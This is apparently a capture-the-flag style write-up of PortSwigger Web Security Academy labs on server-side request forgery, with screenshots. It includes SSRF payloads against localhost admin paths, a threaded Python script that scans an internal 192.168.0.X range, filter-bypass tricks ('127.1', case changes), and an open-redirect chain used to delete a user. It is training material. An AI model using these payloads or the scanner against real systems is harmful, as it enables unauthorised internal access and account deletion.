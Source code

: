 # Server Side Request Forgery 

<h3> Lab: Basic SSRF against the local server </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32997785-74fe-46ec-a190-4075db32ec9c)

After going over to the web page i see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cd6f9f7-7910-48bc-9d12-a47ac10ad906)

Checking a random product shows this stock get function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6cc8f8b0-d8cd-49de-839c-b42962b14a67)

Intercepting the request and clicking it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2f4f356c-2839-4157-946c-f23483913339)

It is loading the stock value from an external url 

Since the aim of this challenge is to delete the user *carlos* on the */admin* directory from the internal web app let us do that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1d984ff-4d0e-4f13-ba52-942d409a7fa5)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb603606-d8cf-4ee7-aeb0-f6b876f84a2b)

The path to delete it is */admin/delete?username=carlos*

Doing that works and we get challenge solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c5a88ce6-d848-4046-9adb-c1477d55340c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9b984c07-8bae-4a36-adc3-4098a16b121a)


<h3> Lab: Basic SSRF against another back-end system </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1d4db110-6343-48b3-94c3-3a3a35a3cb0e)

Going over to the web app shows still the same function as the previous one
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb7a87f4-8032-4308-aa57-e3032ff91635)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09c8cf2d-78c5-46e5-8c88-bf5162563c83)

The aim for this challenge is to scan the internal *192.168.0.X* range for an admin interface on port *8080*, then use it to delete the user carlos

I didn't want to use burp intruder for it so i made a script for it

```python
#!/usr/bin/python3
import requests
from time import sleep
from threading import Thread

def sendRequest(url, cookie, ip):
    # Exclude ip 192.168.0.1, which is the stock API address
    if ip == '192.168.0.1':
        return

    data = {
        'stockApi': f'http://{ip}:8080/'
    }

    # Send a POST request to /product/stock, and the data is the SSRF payload
    StatusCode = requests.post(url, cookies=cookie, data=data).status_code

    # Using \r to clean previous line
    print(f'[*] Trying ip: {ip}', end='\r')

    if StatusCode != 500:
        print(f'[+] Found a valid internal ip address: {ip}')

def main():
    url = 'https://0aa60010032c1eab80b7a35b002b000e.web-security-academy.net/product/stock'
    cookie = {'session': 'OS7X5KkySnlT6ocIvQfQuvWPt10SKciB'}

    # Generate a list of IPv4 private ip addresses from 192.168.0.0 to 192.168.0.255
    ipAddressList = list()

    for lastOctet in range(256):
        ipAddressList.append(f'192.168.0.{lastOctet}')

    # For each private ip address, spawn a new thread to function sendRequest(url, cookie, ip)
    for ip in ipAddressList:
        thread = Thread(target=sendRequest, args=(url, cookie, ip))
        thread.start()

        sleep(0.1)


if __name__ == '__main__':
    main()

```

Running it gives the ip 

```
➜  Desktop python3 solve.py
[+] Found a valid internal ip address: 192.168.0.48
➜  Desktop 
```

Trying it over my proxy gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8611e4a3-100e-4f61-86bd-aa343896efcf)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2cf4a98a-590d-46d3-aa80-37599f54db87)

We can now delete the user *carlos*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26b903b0-163f-4513-be3f-7ee33256f6f7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/23acecf1-27da-42ef-9b37-76f3803c2be9)

<h3> Lab: SSRF with blacklist-based input filter </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/486edb3d-bc92-48e8-b78d-d526adb663de)

Moving over to the web app shows the normal function we've been seeing
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/53f9dcf8-beeb-4cc1-b70e-cd683703291b)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/555f291f-8e18-4542-bb81-3dbca2f9a461)

But when I tried accessing localhost in the stockApi variable I get an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/953fd872-21d7-47e8-bb38-5093f103f3f6)

<h3> Lab: SSRF with filter bypass via open redirection vulnerability </h3>

So we need to bypass this

I decided to try each value of what we are trying to access individually
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5452ceec-c07f-401a-aa56-67a579a4fc5b)

Trying : `http://127.1` gives `200` Ok
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c5e739a0-5c76-4e50-93c7-57bd261901c9)

But appending /admin gives an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5b29c541-7bf5-460c-816c-7ac8e3624072)

One thing we can try here is case changing any letter of */admin* to uppercase as the web server might treat it as normal word

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e161ad0e-51fe-45b4-80f1-149a42aed2f1)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/739bfefe-9db6-418c-8215-a6b51ef65fd7)

Now we can delete the user carlos account
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5317f144-dd12-47ac-be38-588d0e357ae6)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cb5cda62-d6fc-402a-b20b-61ccadfe486e)


<h3> Lab: SSRF with filter bypass via open redirection vulnerability </h3>
 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c8f0c3f4-0595-4ff1-a7b5-4b95fbe90549)

Going over the web page as usual shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/08397187-b5b2-47b5-afeb-6e6160ec7377)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b302250-5016-4480-84b4-230b938b33b8)

But when i clock on the Stock button i don't see any variable that is querying a url from an external / internal source
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f3c7596a-d80e-4405-a2ec-5320dfae038b)

So no ssrf here but notice the path:

```
/product/stock/check?productId=1&storeId=1
```

But looking below shows a button that can either return to list or go to next product
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6e4efeef-4ada-4062-9a66-adf15a77c08a)
 
 Clicking the next product button while intercepting the request shows this
 ![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/655f87a8-3a19-48ef-b4b1-3fb55b3d0ac8)

The path looks interesting:

```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2
```

I'll send it over to repeater to play with the parameter

But i noticed that when i forward the request it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/059419d3-b900-4b67-9ede-c07c3fdd8faf)

So that means we have an open redirect since this current parameter is called from the previous one

With this we can modify the path value to call an internal source which is this `http://192.168.0.12:8080/admin/delete?username=carlos` on the view stock request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/00115dfe-ecac-4411-ada1-eeebd5ceff15)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b4f51be2-880c-4e08-89ee-206024bd1395)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ac21d5f2-66f3-4252-b803-3a03beb19744)
